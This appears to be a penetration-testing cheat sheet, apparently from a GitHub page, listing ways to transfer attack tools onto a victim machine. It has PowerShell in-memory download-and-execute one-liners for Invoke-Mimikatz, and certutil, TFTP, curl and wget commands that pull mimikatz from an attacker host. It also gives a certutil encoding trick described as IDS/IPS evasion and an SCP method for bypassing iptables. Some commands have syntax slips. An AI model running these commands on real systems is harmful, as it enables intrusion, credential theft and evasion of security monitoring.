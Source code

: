 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1 
```

